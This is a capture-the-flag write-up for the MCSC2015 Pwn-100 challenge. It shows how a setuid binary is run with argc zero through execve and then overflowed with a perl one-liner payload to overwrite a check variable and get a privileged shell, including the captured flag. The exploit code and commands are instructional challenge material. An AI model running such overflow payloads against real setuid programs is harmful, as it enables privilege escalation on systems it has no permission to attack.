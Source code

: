 # MCSC2015 writeup for Pwn-100
pwn0@MCSC2015:/challenges/pwn0$ ls -l
total 16
-rws--s--x 1 pwned0 pwned0 7492 mai   18 15:13 0
-r-------- 1 pwned0 pwned0   52 mai   18 15:13 FLAG
-rw-r--r-- 1 root   root    558 mai   18 15:13 pwn0.c

after a quick view in pwn0.c, here's an interesting function

void vuln() 
{
	unsigned int reg;
	char buffer[BUFF_SIZE];
	fgets(buffer , BUFF_SIZE+5 , stdin);
	if(reg == 78954)
	{
		printf("You Win\n");
		system("/bin/dash");
	}
}

However, this function is executed if and only if argc is equal to zero.
In that case, execve can be handy ...


Step 1 : run the program with argc equals to zero to allow the function vuln() to be executed.
Step 2 : overwrite the variable reg with 78954
if(reg == 78954)
{
	printf("You Win\n");
	system("/bin/dash");
}

Step1 : run a program with argc=0
What's special about the family exec call system ?
execve allows you to specify the command-line arguments (including the program name).
a normal call to execve for example would be :
execve("/home/xxx/prog","prog",NULL) witch is similar to /home/xxx/prog with argc equals to 1 as usual ....
execve("/home/xxx/prog",NULL,NULL) would be a little bit different .... argc is equal to zero in that case.

with that said, let's start exploiting .....
First, we write a small program 

\#include <stdio.h>
\#include <stdlib.h>
int main()
{
	execve("/challenges/pwn0/0",NULL,NULL);
}
############################
pwn0@MCSC2015:/tmp$ mkdir /tmp/testing
pwn0@MCSC2015:/tmp$ cd /tmp/testing/
pwn0@MCSC2015:/tmp/testing$ cat wrapper.c
#include <stdio.h>
#include <stdlib.h>
int main()
{
	execve("/challenges/pwn0/0",NULL,NULL);
}
pwn0@MCSC2015:/tmp/testing$ gcc wrapper.c -o wrapper
pwn0@MCSC2015:/tmp/testing$ ./wrapper 
Good Boy
test
pwn0@MCSC2015:/tmp/testing$

we are finally able to execute the vuln() function, let's try to exploit it:
The buffer size is 64, 78954 to hexadecimal is 0x1346A
===========================
A successful exploitation would be like this:
pwn0@MCSC2015:/challenges/pwn0$ perl -e 'print "A"x64 . "\x6a\x34\x01\x00"' > /tmp/testing/input
pwn0@MCSC2015:/challenges/pwn0$ cat /tmp/testing/input -|/tmp/testing/wrapper 
Good Boy
You Win
id      
uid=1001(pwn0) gid=1001(pwn0) euid=1002(pwned0) egid=1002(pwned0) groups=1002(pwned0),1001(pwn0)
cat FLAG
flaG{I_4M_Th3_EaSy_One_Pwn_th3_N3xt_L3vel_If_U_C4N}
